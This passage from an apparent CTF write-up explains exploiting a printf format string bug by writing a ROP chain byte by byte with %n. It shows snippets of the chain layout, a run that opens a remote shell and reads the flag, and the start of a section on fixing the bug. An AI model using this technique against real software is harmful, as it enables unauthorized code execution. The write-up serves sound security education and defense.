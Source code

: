 FmtStr automates all the boring stuff.

With the format string exploit, the number of characters will be written at the provided address. But, what if we want to write the value
**0x7f3722bcc8d0**, so 2134319804 characters need to be printed? This will take ages! The solution is to split it in multiple smaller values
and use overflows. So 256 printed characters are equal to 0. With our number, it will be:

 - Print 0xd0 characters and used %n on the address A. The address A contains **0xd0**.
 - Print (256 - 0xd0) + 0xc8 characters and used %n on the address A + 1. The address A contains **0xc8d0**.
 - Print (256 - 0xc8) + 0xbc characters and used %n on the address A + 2. The address A contains **0xbcc8d0**.

So, the stack should look like this at the end of printf:

```
hex(return_address_of_printf + 16) + " : " + hex(system_addr)   + " # addr system_addr")
print(hex(return_address_of_printf +  8) + " : " + hex(address_binsh) + " # addr string '/bin/sh'")
print(hex(return_address_of_printf)      + " : " + hex(address_pop_rdi_ret)   + " # addr pop rdi ; ret")
```

However, we have to write 6 addresses of 8 bytes. So 48 writes. Each address takes 8 bytes not counting the print of characters.
we have limited space (199 characters). FmtStr provides different formats from 1 byte to more.

You can find the code [here (GitHub)](https://github.com/cotonne/ctf/blob/master/2020-CTF-COMCYBER-ExploitMe.py).

Let's run it:

```bash
$ python3 format-string.py remote 0

... Running ...

.. Interactive mode ...

$ whoami
chall
$ ls
chall
flag
$ cat flag
FLAG{sImp3_BaSiQ_S1mp13_b4S1k}
```

## Fixing it!

As a developer, I can be interested in a way to fix this issue.

First, at compilation, if the format string is known, GCC will comply about missing parameters:

```bash
$ gcc test.c 
test.c: In function ‘main’:
test.c:4:11: warning: format ‘%p’ expects a matching ‘void *’ argument [-Wformat=]
    4 |  printf("%p");
```
